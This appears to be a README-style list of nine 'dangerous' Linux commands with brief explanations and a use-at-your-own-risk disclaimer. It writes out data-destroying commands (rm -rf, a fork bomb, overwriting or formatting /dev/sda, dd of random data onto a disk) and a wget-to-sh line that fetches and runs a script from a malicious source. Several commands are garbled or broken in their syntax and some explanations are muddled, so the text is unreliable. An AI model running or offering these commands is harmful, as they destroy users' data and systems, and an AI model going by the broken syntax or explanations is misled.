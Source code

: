 ## DISCLAIMER: If you want to use these commands, use them at you own risk. I am not responsible for your actions.

---

### 1.

	rm -rf

The rm -rf command is one of the fastest ways to delete a folder and its contents.

---

### 2.

	: () {: |: &} ;:

(Fork bomb) It operates by defining a function called ", which is called twice, once in the foreground and once in the background. It keeps running again and again until the system freezes.

---

### 3.

	command> /dev/sda

Command writes the output of ‘command on the block / dev / sda’. The above command writes raw data and all files on the block will be replaced with raw data, resulting in total loss of data in the block.

---

### 4.

    mv directory /dev/null

This command basically moves all the files to / dev / null, yes, it means that it simply makes all the files from the system disappear.

---

### 5.

    wget http://malicious\_source -0 | sh

Command will download a script from a malicious source and then run it on your system. The wget commnad wil download the script and sh commnad will run the downloaded script on your system.

---

### 6.

    Mkfs.ext4 /dev/sda

Command will simply format the block ‘sda’ and you will definitely know that after running the above command your Block (Hard Disk Drive) will be reset to NEW! Without the data, the system will be in an unrecoverable phase.

---

### 7.

    \> file

The above command is used to release the file content. If the above command is executed with a typing error or ignorance as “> xt.conf” will write the configuration file or any other system or configuration file.

---

### 8.

    ^ foo ^ bar

This command is used to edit the previous command without the need to retype the entire command again. But it can be really problematic if you do not take the risk to carefully check the change in the original command using ^ ^ foo bar command.

---

### 9.

    dd if = / dev / random of = / dev / sda

The above command will end as / dev / sda and write random data for the block. Of course your system would be left in an unrecoverable phase.
